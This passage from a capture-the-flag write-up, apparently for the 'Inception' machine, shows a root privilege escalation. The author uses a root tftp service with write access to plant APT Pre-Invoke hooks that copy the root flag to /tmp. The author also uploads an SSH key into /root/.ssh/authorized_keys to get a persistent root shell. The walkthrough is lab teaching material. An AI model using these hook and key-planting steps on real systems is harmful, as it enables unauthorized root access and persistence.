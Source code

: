 Let's see what's in /etc/apt/apt.conf.d
```bash
ftp> cd apt.conf.d
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              82 Oct 30  2017 00CDMountPoint
-rw-r--r--    1 0        0              49 Oct 30  2017 00aptitude
-rw-r--r--    1 0        0              40 Oct 30  2017 00trustcdrom
-rw-r--r--    1 0        0              42 Apr 14  2016 01-vendor-ubuntu
-rw-r--r--    1 0        0             769 Apr 14  2016 01autoremove
-r--r--r--    1 0        0            3459 Nov 30  2017 01autoremove-kernels
-rw-r--r--    1 0        0             129 May 24  2016 10periodic
-rw-r--r--    1 0        0             108 May 24  2016 15update-stamp
-rw-r--r--    1 0        0              85 May 24  2016 20archive
-rw-r--r--    1 0        0            2656 Oct 30  2017 50unattended-upgrades
-rw-r--r--    1 0        0             182 Nov 10  2015 70debconf
-rw-r--r--    1 0        0             305 May 24  2016 99update-notifier
ftp> get 00aptitude
local: 00aptitude remote: 00aptitude
```
Let's get 00aptitude
```bash
root@Inception:/home/cobb# cat 00aptitude
Aptitude::Get-Root-Command "sudo:/usr/bin/sudo";
```

If I modify it and try to upload it's still not uploading even though, I have write permissions.
If I check for ftp configurations I get `/etc/default/tftpd-hpa`, which says create options are configured for tftp.
```bash
# /etc/default/tftpd-hpa

TFTP_USERNAME="root"
TFTP_DIRECTORY="/"
TFTP_ADDRESS=":69"
TFTP_OPTIONS="--secure --create"
```
and uploading now does work with tftp.

Googling `apt conf execute command` gives this [link]() at the top.

To get the flag and test for cronjob running, I made a file named test. 
```bash
APT::Update::Pre-Invoke {"cp /root/root.txt /tmp/root.txt; chmod 666 /tmp/root.txt"};
```
Put it to /etc/apt/apt.conf.d using tftp:
```bash
$ tftp 192.168.0.1
tftp> put test /etc/apt/apt.conf.d/test
Sent 87 bytes in 0.0 seconds
```

I can also get root shell by putting authorized_keys at .ssh folder as we already saw SSH port is open on 192.168.0.1.
```bash
$ ssh-keygen
$ echo 'APT::Update::Pre-Invoke {"chmod 600 /root/.ssh/authorized_keys"};' > caretaker
$ tftp 192.168.0.1
tftp> put caretaker /etc/apt/apt.conf.d/caretaker
Sent 67 bytes in 0.0 seconds
tftp> put .ssh/id_rsa.pub /root/.ssh/authorized_keys
Sent 397 bytes in 0.0 seconds
```
